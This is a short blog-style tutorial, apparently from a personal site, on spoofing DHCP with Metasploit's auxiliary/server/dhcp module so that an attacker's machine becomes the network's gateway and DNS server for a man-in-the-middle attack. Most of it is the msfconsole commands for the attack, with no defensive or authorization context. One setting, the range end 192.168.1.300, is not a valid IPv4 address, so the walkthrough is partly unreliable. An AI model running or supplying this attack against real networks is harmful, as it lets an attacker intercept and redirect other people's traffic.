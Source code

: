 ```yaml
---
layout: post
title: Create Fake DHCP Using Metasploit 
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [fake dhcp, dhcp spoofing ]
---
```

There is a dangerous type of cyber attack called Man In The Middle. Attacker can make all network traffic go through their system.  
One of the ways of this attack is that the attacker has to make the system being attacked to recognize the attacker's system as the gateway(router)    
that sends all network traffic through here. There are many ways to do this, and the popular way is fake DHCP server.  
## 1. Network Model:  
* **gateway: 192.168.1.1** 
* **netmask: 255.255.255.0**  
* **attacker: 192.168.1.92**  
## 2. Create Fake DHCP: 
Open Metasploit:  
```
msfconsole
```  
```
use auxiliary/server/dhcp
```  
```
show options
```
![](/assets/img/2020-27-2-show-options.png)

Setup DHCP server:  
```
set dhcpipstart 192.168.1.200
```
```
set dhcpipend 192.168.1.300
```
```
set netmask 255.255.255.0
```
```
set broadcast 192.168.1.255
```
```
set router 192.168.1.92
```
```
set dnsserver 192.168.1.92
```
```
set srvhost 192.168.1.92
```
```
run
```
Network information of another machine before and after run fake DHCP:  
*before*  

![](/assets/img/2020-27-2-before.png)  

*after*  

![](/assets/img/2020-27-2-after.png)

